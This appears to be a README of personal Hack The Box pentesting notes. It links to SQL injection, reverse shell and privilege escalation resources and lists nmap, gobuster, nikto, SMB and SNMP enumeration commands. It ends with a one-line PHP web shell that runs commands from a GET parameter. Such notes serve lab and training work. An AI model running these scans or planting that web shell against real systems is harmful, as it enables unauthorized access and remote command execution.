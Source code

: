 # htb_notes

## OWASP

[Sql Injection](https://sechow.com/bricks/docs/login-1.html)
>
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Linux

[5 Ways to Directory Bruteforcing on Web Server](https://www.hackingarticles.in/5-ways-directory-bruteforcing-web-server/)
>
[Privilege Escalation via Python Library Hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

## Windows

[Abusing SeLoadDriverPrivilege for privilege escalation](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

## Helpful Commands

### Nmap

#### Quick TCP Scan

nmap -A vv -oA quick -targetip-

#### Quick UDP Scan

nmap -A -sU -oA udp -targetip-

#### Full TCP Scan

nmap -A -p- -oA full -targetip-

### Content Discovery

#### Gobuster

gobuster dir -u -targetip- -w /usr/share/wordlist/dirbuster/directory-medium-23.txt -t 50

#### Gobuster with file extension

gobuster dir -u -targetip- -w /usr/share/wordlist/dirbuster/directory-medium-23.txt -t 50 -x php

#### Nikto web server scan

nikto -h -targetip-

#### Wordpress scan

wpscan -u -targetip- -e

#### Netcat banner grab

nc -v -tagretip- -port-

#### Telnet banner grab

telnet -targetip- -port-

### SMB

#### SMB Vulnerability Scan

nmap -p 445 -vv -script vuln -p 139,445 -targetip-

### Enum4linux

enum4linux -a target

### Null connect

rpcclient -U "" target

#### Connect to SMB share

smbclient //MOUNT/share

### SNMP

#### SNMP enumeration

snmp-check target

#### Reverse Shells

[Revere Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Remote Desktop

Remote Desktop for windows with share and 85% screen
rdesktop -u username -p password -g 85% -r disk:share=/root/ target

### PHP

#### PHP command injection from GET Request

-?php echo system($_GET["cmd"]);?-



